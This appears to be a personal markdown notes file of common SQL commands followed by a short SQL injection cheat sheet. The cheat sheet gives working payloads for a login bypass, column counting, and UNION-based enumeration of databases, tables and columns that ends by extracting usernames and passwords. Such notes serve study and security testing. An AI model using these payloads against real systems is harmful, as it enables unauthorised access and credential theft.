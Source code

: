 # Common SQL Commands

### Create db

```
CREATE DATABASE mydb;
```

### Create table

```
CREATE TABLE Students (
    studentID int,
    FirstName varchar(255),
    LastName varchar(255),
    UniversityName varchar(255)
);

CREATE TABLE Users (
    username varchar(255),
    password varchar(255)
);
```

### Insert Info

```
INSERT INTO Students VALUES (3124, "Wilson", "Lien", "Cool University");
```

### Select Data

```
SELECT * FROM Students;
```

### Select Data With Condition

```
SELECT * FROM Students WHERE studentID=3124;
SELECT * FROM Students WHERE studentID=3124 AND FirstName="Henry";
SELECT * FROM Students WHERE studentID=3124 OR FirstName="Wilson";

```

### ORDER BY

```
SELECT * FROM Students ORDER BY studentID;
SELECT * FROM Students ORDER BY studentID DESC; -- in decending order
```

### Get All Databases

```
SELECT schema_name FROM information_schema.schemata;
```

### Get All Tables

```
SELECT table_schema,table_name FROM information_schema.tables WHERE table_schema = 'mydb';
```

### Get All Columns

```
UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name = 'Users';
```

# SQL Injection Cheat Sheat

### Log In As a Valid User

```
' OR 1 = 1 --
```

## Union attack

### Find the numbers of Columns

```
' OR 1=1 ORDER BY 1; --
' OR 1=1 ORDER BY 2; --
' OR 1=1 ORDER BY 3; --
```

### Find the name of all database

```
' UNION SELECT schema_name, NULL FROM information_schema.schemata --
```

### Find the name of all tables in the interested database

```
' UNION SELECT table_schema,table_name FROM information_schema.tables WHERE table_schema = 'mydb' --
```

### Find the name of all columns in the interested table

```
' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name = 'Users' --
```

### Get the data in the interested table

```
' UNION SELECT username, password FROM Users --
```

### Concat multiple column data in a column (used when the columns presented are less than the amount of column you want)

```
' UNION SELECT CONCAT(username, ",", password), NULL FROM Users--
```
